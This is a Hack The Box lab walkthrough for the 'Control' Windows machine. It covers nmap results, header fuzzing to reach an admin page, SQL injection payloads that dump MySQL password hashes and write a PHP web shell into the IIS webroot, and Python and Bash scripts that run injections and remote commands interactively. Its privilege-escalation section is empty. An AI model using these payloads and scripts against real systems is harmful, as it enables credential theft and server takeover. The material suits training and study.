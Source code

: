 ```yaml
---
title: Control - Hard
categories: htb SQLI 
excerpt: | 
 Windows machine with a vulnerable page. 

feature_text: |
  ## Control - Hard

feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 10.0
|_http-title: Fidelity
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc   Microsoft Windows RPC
3306/tcp  open  mysql?
| fingerprint-strings: 
|   JavaRMI: 
|_    Host '10.10.16.7' is not allowed to connect to this MariaDB server
49666/tcp open  msrpc   Microsoft Windows RPC
49667/tcp open  msrpc   Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=4/28%Time=626AEB4C%P=x86_64-pc-linux-gnu%r(Ja
SF:vaRMI,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.7'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.10.167'` will determine the next steps. There is no information so we go to the main page and there is a admin.php which requires specific header. Try with the most common. 
There are some lists of headers in the seclists packet in github... Before you try with them, take a look at the page code. There is a IP address you can use as a value. 
`wfuzz -c --hc=404 -w /usr/share/seclists/Miscellaneous/web/http-request-headers/http-request-headers-common-non-standard-examples.txt -H "FUZZ: 192.168.4.28" -u http://10.10.10.167/admin.php`
This will report you the respond of the server and you can see there is one of them with more words than the others. Let's try with this in burpsuite.

Once you are in admin.php you can see a search bar and a table below. It seems vulnerable to SQL Injections.
Find the numbers of colunms and you can insert command in them. For example: 'union select 1,database(),user(),version(),5,6# 

### Scripting in python

``` python
#!/usr/bin/python3
from pwn import *
import time, pdb, sys, signal, requests, os

#Global variables
main_url = "http://10.10.10.167/search_products.php"
proxy = {
        'http': 'http://127.0.0.1:8080'
    }
header = {
        'X-Forwarded-For': '192.168.4.28'
    }

#Ctrl+C 
def def_handler(signum, context):
    print("\n[!] Saliendo...\n\n")
    sys.exit(1)

# A function that returns True if letter is not number
def filter_numbers(l):
    numbers = ['1', '2', '3', '4', '5', '6']
    return False if l in numbers else True

def rce():
    print("[+] Welcome to the RCE script\n")
    nofin = True
    s = requests.session()
    
    command = ''
    while(nofin):
        command = input("[~] Injection > ").strip('\n')
        if(command == 'exit'):
            nofin = False
            break
        data_post = {
                "productName": "%s#" %command
            }
        r = s.post(main_url, data=data_post, headers=header)
        
        try:
            result = re.findall(r'<td>(.*?)</td>', r.text)
            filtered_result = tuple(filter(filter_numbers, result))
            print(filtered_result)
            print('\n')
        except IndexError:
            print("Error with the command. Try again\n")

if __name__ == "__main__":
    signal.signal(signal.SIGINT, def_handler)
    rce()

```
Examine databases, tables and values and whit the following injection you will have the hash of a posible user. Crack them in (https://crackstation.net) and save the results.: 
> ' UNION SELECT User,Password,3,4,5,6 FROM mysql.user #
It is a IIS server that has a directory C:\inetpub\wwwroot\yourfile and it can be writeable and posibly interpret the php code so: 
> ' UNION SELECT "<?php system($_REQUEST['cmd']); ?>",2,3,4,5,6 INTO OUTFILE "C:\\inetpub\\wwwroot\\pwned.php"#
if you see the phpinfo() there are not disable_function

### Scripting in bash 
``` bash
#!/bin/bash
function ctrl_c(){
  echo -e "\n\n${redColour}[+] Saliendo...${endColour}\n"
  exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function makeQuery(){
  myQuery="$1"
  echo; curl -s -X POST "http://10.10.10.167/search_products.php" -H "X-Forwarded-For: 192.168.4.28" -d "productName=$myQuery" | awk '/<tbody>/,/<\/tbody>/' | html2text | sed 's/1| //' | sed 's/| 3| 4| 5| 6//'
}

function makeInteractive(){
  while [ "$myQuery" != "exit" ]; do
    echo -ne "${redColour}[~]${endColour}${yellowColour} Injection >${endColour} " && read -r myQuery
    echo; curl -s -X POST "http://10.10.10.167/search_products.php" -H "X-Forwarded-For: 192.168.4.28" -d "productName=$myQuery" | awk '/<tbody>/,/<\/tbody>/' | html2text
  done
}

function rceInteractive(){
  while [ "$myCommand" != "exit" ]; do
    echo -ne "${redColour}[~]${endColour}${yellowColour} RCE >${endColour} " && read -r myCommand
    echo; curl -s -X GET -G "http://10.10.10.167/pwned.php" --data-urlencode "cmd=$myCommand" | sed 's/1 //' | sed 's/ 3 4 5 6//'
  done
}

function helpPanel(){
  echo -e "\n${yellowColour}[+]${endColour}${grayColour} Uso:${endColour}\n"
  echo -e "\t${turquoiseColour}q)${endColour}${yellowColour} Query a probar ${endColour}${purpleColour}[${endColour}${blueColour}Ej: -q \"${endColour}${greenColour}' union select 1,2,3,4,5,6-- -${endColour}${blueColour}\"${endColour}${purpleColour}]${endColour}"
  echo -e "\t${turquoiseColour}i)${endColour}${yellowColour} Entrar en modo interactivo${endColour}"
  echo -e "\t${turquoiseColour}e)${endColour}${yellowColour} Entrar en modo interactivo [RCE]${endColour}"
  echo -e "\t${turquoiseColour}h)${endColour}${yellowColour} Mostrar este panel de ayuda${endColour}"
  exit 1
}

declare -i parameter_counter=0; while getopts "q:ieh" arg; do
  case $arg in
    q) myQuery=$OPTARG; let parameter_counter+=1;;
    i) let parameter_counter+=2;;
    e) let parameter_counter+=3;;
    h) helpPanel;;
  esac
done

if [ $parameter_counter -eq 1 ]; then
  makeQuery "$myQuery"
elif [ $parameter_counter -eq 2 ]; then
  makeInteractive
elif [ $parameter_counter -eq 3 ]; then
  rceInteractive
else
  helpPanel
fi
```


### Privilege scalation



